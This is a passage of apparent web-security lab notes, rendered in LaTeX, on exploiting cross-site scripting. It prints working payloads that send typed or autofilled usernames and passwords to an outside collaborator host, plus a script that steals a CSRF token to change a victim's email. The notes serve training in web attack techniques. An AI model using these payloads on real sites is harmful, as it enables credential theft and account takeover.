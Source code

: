 \documentclass[
  letterpaper,
]{article}
\begin{document}
\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://burp.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
\end{Verbatim}

\begin{quote}
If you want them to be autocompleted
\end{quote}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<input name="username" id="username" autocomplete="username">
<input type="password" id="password" name="password" autocomplete="password" onchange="if(this.value.length)fetch('http://burp.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
\end{Verbatim}

\begin{quote}
\url{https://www.doyler.net/security-not-included/xss-password-stealing}\strut \\
\url{https://medium.com/dark-roast-security/password-stealing-from-https-login-page-and-csrf-bypass-with-reflected-xss-76f56ebc4516}
\end{quote}

\subsubsection{7. Exploiting XSS to perform
CSRF}\label{7-exploiting-xss-to-perform-csrf}

\begin{quote}
There is protection against CSRF, so we need to use the other
user\textquotesingle s CSRF token in our payload
\end{quote}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() 
{    
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];    
var changeReq = new XMLHttpRequest();    
changeReq.open('post', '/my-account/change-email', true);    
changeReq.send('csrf='+token+'&email=test@test.com')};
</script>
\end{Verbatim}

\subsubsection{8. Reflected XSS into HTML context with most tags and
attributes
blocked}\label{8-reflected-xss-into-html-context-with-most-tags-and-attributes-blocked}
\end{document}
